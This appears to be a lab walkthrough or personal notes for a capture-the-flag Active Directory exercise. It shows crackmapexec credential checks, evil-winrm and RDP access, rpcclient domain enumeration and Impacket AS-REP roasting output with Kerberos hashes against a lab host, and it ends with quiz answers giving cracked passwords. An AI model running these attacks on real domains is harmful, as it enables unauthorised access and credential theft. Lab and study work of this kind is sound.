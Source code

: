 Installation for Kali 🐲
Copy
apt update
apt install netexec






curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
apt install pipx git
pipx ensurepath
pipx install poetry
poetry self add "poetry-dynamic-versioning[plugin]"
poetry dynamic-versioning enable





 crackmapexec smb 10.201.123.47


  crackmapexec smb 10.201.123.47
SMB         10.201.123.47   445    CONTROLLER-1     [*] Windows 10.0 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
                    

crackmapexec smb 10.201.123.47 --shares


crackmapexec smb 10.201.123.47 --shares



$ crackmapexec smb 10.201.123.47 -u Administrator -p 'P@$$W0rd'
SMB         10.201.123.47   445    CONTROLLER-1     [*] Windows 10.0 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
SMB         10.201.123.47   445    CONTROLLER-1     [+] CONTROLLER.local\Administrator:P@$$W0rd (Pwn3d!)




 crackmapexec winrm  10.201.123.47 -u Administrator -p 'P@$$W0rd'
SMB         10.201.123.47   5985   CONTROLLER-1     [*] Windows 10.0 Build 17763 (name:CONTROLLER-1) (domain:CONTROLLER.local)
HTTP        10.201.123.47   5985   CONTROLLER-1     [*] http://10.201.123.47:5985/wsman
WINRM       10.201.123.47   5985   CONTROLLER-1     [+] CONTROLLER.local\Administrator:P@$$W0rd (Pwn3d!)




xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.123.47 /u:Administrator /p:'P@$$W0rd'



evil-winrm -i 10.201.123.47 -u Administrator -p 'P@$$W0rd' 




pcclient -U ""  10.201.123.47 -N


rpcclient -U 'Administrator%P@$$W0rd'  10.201.123.47     >  user.txt


└─$ cat userK.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge userK.txt 


rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[Machine1] rid:[0x44f]
user:[Machine2] rid:[0x450]
user:[Admin1] rid:[0x451]
user:[Admin2] rid:[0x452]
user:[User1] rid:[0x453]
user:[User2] rid:[0x454]
user:[SQLService] rid:[0x455]
user:[User3] rid:[0x456]
user:[HTTPService] rid:[0x457]
user:[sshd] rid:[0x458]
rpcclient $> 

pcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
rpcclient $> 



rpcclient $> querygroupmem 0x206
        rid:[0x1f4] attr:[0x7]
        rid:[0x451] attr:[0x7]
        rid:[0x452] attr:[0x7]
        rid:[0x455] attr:[0x7]
rpcclient $> 


rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Tue, 05 Aug 2025 15:27:35 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Mon, 25 May 2020 15:22:39 EDT
        Password can change Time :      Tue, 26 May 2020 15:22:39 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000008
        padding1[0..7]...
        logon_hrs[0..21]..





ython3  GetNPUsers.py -usersfile /home/kali/Downloads/kerberos/userK.txt -no-pass CONTROLLER.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Machine1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Machine2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Admin1 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$Admin2@CONTROLLER.LOCAL:ccd6aa0e219d14f9ff79dd3a7cb6e4fa$acbc76a88368b945f912f56ed7e77a870faea355ab5a2b98d5bff92d62fd8718723114d0f2d94d070bc2c296111ad47b13cc0cfbd17153e215082af5e2470334933681d07fdd40fde2c6707b7e411dd2b33a9951a54dd48660a06b0f8c1ed0622ea62d9ee38d64de1aa4c25138168f6bf5c907feb9e8d38483b735bf112b027bdffa4365b644fac9c52aac4b8809bba29f5e8ddee6065aef1c489ff54326c7864e610df50d6fbc5d7bc901a004f0be94cdcbc979fb849423e0e218b031d7b318d5216de23e8b96fa678b9e468b1b212dc03956324f9150c516ce09a7ff387ab79d29b8d102c5910777443e3ab3f5aae2b189cd6f
[-] User User1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User User2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SQLService doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$User3@CONTROLLER.LOCAL:de68f7ddf0afdefd1da370343fdba3a8$3081a0231cf3b290de4c2ee1722bef56f84d182a3463311a6441e1cfe1db4d788a3275cb4d752a28de8a977466f10e73681c65cfdeefba7b6baf30a3ebb6a50b384bad6e4d2b917afb89a7d79ad90d9745ca7e9403530738a9160c450fb0132dfee20eefbd242530e2783f204404cc84ef2933b80dc7c0b9773ecd9610d5e1aa1627771a17394c3fc74806052b86c1448f69abf79cfb02dfac3c52d168f53e72b363c7aaf9e70bc8b2b520e5b8184542404c821e784f005a312a58a390f7b4f7f0ac9373c444a01ce185efe4fdb777556127490e54c2f5eff5c70cc819d04cefbf86f36526625cba3a30cfaadb6c628e22ddef1f
[-] User HTTPService doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                                                      
┌──(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ 











What hash type does AS-REP Roasting use?

Ans: Kerberos 5 AS-REP etype 23

Which User is vulnerable to AS-REP Roasting?

Ans: User3

What is the User’s Password?

Ans: Password3

Which Admin is vulnerable to AS-REP Roasting?

Ans: Admin2

What is the Admin’s Password?

Ans: P@$$W0rd2